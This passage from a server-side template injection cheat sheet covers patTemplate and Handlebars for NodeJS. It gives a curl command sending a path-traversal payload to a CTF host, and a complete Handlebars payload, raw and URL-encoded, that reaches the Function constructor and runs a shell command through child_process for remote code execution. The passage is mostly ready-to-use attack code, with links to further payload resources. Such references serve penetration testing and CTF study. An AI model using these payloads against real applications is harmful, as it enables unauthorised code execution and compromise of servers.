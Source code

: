 ```
  </patTemplate:tmpl>
</patTemplate:tmpl>
```
```
**More information**

- [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#pattemplate|https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#pattemplate]]

### Handlebars (NodeJS)

Path Traversal (more info [[https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/)|here]].

```bash
curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"profile\":{"layout\": \"./../routes/index.js\"}}' 'http://ctf.shoebpatel.com:9090/'
```
```
- \= Error
- ${7\*7} = ${7\*7}
- Nothing

```java
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}

URLencoded:
%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27whoami%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D
```
```
**More information**

- [[http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html|http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html]]
```
